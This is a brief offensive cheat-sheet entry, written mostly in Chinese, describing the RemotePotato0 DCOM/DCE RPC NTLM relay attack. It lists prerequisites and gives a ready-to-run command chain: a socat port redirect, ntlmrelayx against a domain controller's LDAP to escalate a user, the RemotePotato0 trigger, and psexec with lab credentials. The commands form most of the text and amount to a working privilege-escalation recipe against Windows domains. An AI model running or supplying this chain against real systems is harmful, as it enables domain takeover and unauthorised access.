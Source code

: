 	RemotePotato0 DCOM DCE RPC 中继
	滥用 DCOM 激活服务并触发当前登录到目标计算机的用户的 NTLM 身份验证
	要求：
	会话 0 中的 shell（例如 WinRm shell 或 SSH shell）
	特权用户在会话 1 中登录（例如域管理员用户）
	https://github.com/antonioCoco/RemotePotato0/
	Terminal> sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.83.131:9998 & # Can be omitted for Windows Server <= 2016
	Terminal> sudo ntlmrelayx.py -t ldap://192.168.83.135 --no-wcf-server --escalate-user winrm_user_1
	Session0> RemotePotato0.exe -r 192.168.83.130 -p 9998 -s 2
	Terminal> psexec.py 'LAB/winrm_user_1:Password123!@192.168.83.135'